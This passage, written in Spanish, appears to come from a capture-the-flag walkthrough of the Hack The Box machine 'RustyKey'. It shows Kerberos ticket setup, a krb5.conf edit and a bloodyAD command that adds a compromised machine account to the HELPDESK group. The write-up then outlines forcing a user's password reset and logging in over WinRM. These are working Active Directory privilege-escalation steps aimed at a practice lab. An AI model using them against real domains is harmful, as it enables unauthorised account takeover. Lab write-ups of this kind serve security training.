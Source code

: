 Vamos a exportar la variable de `kerberos` para que podamos autenticarnos.

```shell
export KRB5CCNAME=IT-COMPUTER3.ccache
```

Una vez echo esto, en el archivo de `kerberos` vamos añadir el `dominio` de la maquina victima para que no haya problemas con el `KDC` del `DC` del `AD`.

```shell
sudo tee -a /etc/krb5.conf << 'EOF'
[libdefaults]
    default_realm = RUSTYKEY.HTB

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
EOF
```

Una vez añadido, vamos a ejecutar la herramienta de esta forma:

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -d rustykey.htb -u IT-COMPUTER3 -k --host dc.rustykey.htb add groupMember HELPDESK 'CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb'
```

Info:

```
2025-10-15 11:17:15.917363 (-0700) +3.081702 +/- 0.016037 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 3.081702
[+] CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb added to HELPDESK
```

Ahora podremos forzar el cambio de contraseñas de dichos usuarios que vimos antes, pero el que mas nos interesa es el de `BB.MORGAN` que tiene lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 122619.png" alt=""><figcaption></figcaption></figure>

Veremos que esta dentro de un grupo antes llamado `PROTECTED OBJECTS` si intentamos cambiarle la contraseña veremos que no nos deja por alguna proteccion de este grupo, por lo que vamos a eliminarle de este grupo y posteriormente cambiarle la contraseña, ya despues de eso veremos que esta en el grupo `REMOTE MANAGEMENT USERS` por lo que nos podremos conectar por `WinRM` con dicho usuario.
